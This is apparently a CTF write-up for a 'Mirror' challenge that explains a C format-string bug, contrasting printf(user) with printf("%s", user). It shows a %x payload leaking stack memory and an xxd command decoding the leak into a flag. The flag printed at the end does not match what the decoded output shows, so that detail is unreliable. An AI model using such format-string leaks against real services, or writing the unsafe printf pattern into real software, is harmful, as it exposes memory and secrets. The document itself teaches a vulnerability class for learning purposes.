


# Pwn/Mirror


## Secure Coding
This challange is all about secure coding in C
There is a code hosted in the server that returns excatly the same what we typein.
The code is written in `C` language. Hence can be exploited if secure coding principles are not followd.

## Exploit
Whenever we use the `%x` format specifier, the code expects a string input. If `%x` is not handled properly in the `printf` function, it can lead to a leak of the stack's contents.  

**For example:**

Consider these two code snippets:

**Code 1**
```C
int func(char *user) {
	printf("%s", user);
}
```

**Code 2**
```C
int func(char *user) {
	printf(user);
}
```

The difference between **Code 1** and **Code 2** is that the format specifier `%s` is explicitly defined in **Code 1**. This makes it safe because the function strictly treats the input as a string and prints it accordingly.  

However, in **Code 2**, there is no format specifier. This gives the user direct control over the `printf` function's behavior.  

When `printf` is used with a format specifier (like `%s`), it first looks at the stack to find the data at the memory address specified by the identifier (like `user`) and then returns the appropriate output.  

But in **Code 2**, since no format specifier is defined, an attacker can input `%x` (or multiple `%x`) to instruct the program to interpret and print data from subsequent stack addresses. This reveals memory contents in hexadecimal format, which may include sensitive information.  

This vulnerability arises because the attacker can manipulate `printf` to access and leak data from the stack, bypassing the program's intended behavior.

## %x in Mirror.c


We can see in the above screenshot that the code is vulnerable to this attack.

I have used a sequence of `%x` till i encounter the `%` character which indicates the end of the output buffer is reached. Doing this, we can get the complete sequence of hexa decimals.


```bash
64 f05e0580 5a5732ce afff f63d4e2e 65646f43 74736566 7b465443 6d723066 355f7434 6e317237 336c5f67 6c5f6b34 35724568 7d503158 a 1 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```

The `hexadecimal` sequence is decoded using the following command
```bash
echo "64 f05e0580 5a5732ce afff f63d4e2e 65646f43 74736566 7b465443 6d723066 355f7434 6e317237 336c5f67 6c5f6b34 35724568 7d503158 a 1 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825" | xxd -r -p
```
```text
d^ZW2ί=N.edoCtsef{FTCmr0f5_t4n1r73l_gl_k45rEh}P1X% x%x% x x% % x%x% x x% % x%x% x x% % x%x% x x% % x%x% x x% % x%% 
```
Remove all the nonsence and reverse 4 characters at a time to get the flag

```flag
CodefestCTF{DOY!}
```
## References
https://wiki.sei.cmu.edu/confluence/pages/viewpage.action?pageId=87152038
